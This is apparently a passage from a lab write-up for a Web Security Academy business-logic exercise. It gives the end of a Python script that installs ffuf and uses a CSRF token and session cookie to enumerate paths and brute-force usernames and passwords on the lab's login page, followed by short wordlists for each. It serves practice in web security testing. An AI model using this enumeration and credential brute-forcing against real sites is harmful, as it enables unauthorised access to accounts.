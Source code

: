 ```python

  process = subprocess.Popen(fuzz_command.split(), stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)
  for line in process.stdout:
    print(line.strip())

def main():
  binary_url = "https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0"
  binary_name = "ffuf"
  base_url = "https://0a6900f304316c31819ecf1d004200a6.web-security-academy.net"
  install_binary(binary_url, binary_name)
  session = requests.Session()
  csrf_token, session_cookie = get_csrf_session_cookie(session, base_url + '/login')
  enumerate(base_url + '/FUZZ', 'wordlist_for_paths.txt')
  enumerate(base_url + '/login', ['wordlist_for_users.txt:USERNAME', 'wordlist_for_passwords.txt:PASSWORD'], method='POST', data=f'csrf={csrf_token}&username=USERNAME&password=PASSWORD', session_cookie=session_cookie, fuzz_mode='clusterbomb')
  
if __name__ == "__main__":
  main()
```
The custom word list used for the path enumeration.
```text
accounts
admin
administrator
api
users
products
product
```
The custom word list used for the username enumeration.
```text
administrator
alex
ben
carlos
jane
micheal
peter
```
The custom word list used for the password enumeration.
```text
administrator
alex
ben
carlos
jane
micheal
peter
```
![Enumeration](/images/bizlogic7/01-enumerate-weak-isolation-on-dual-use-endpoint.png "Enumeration")  
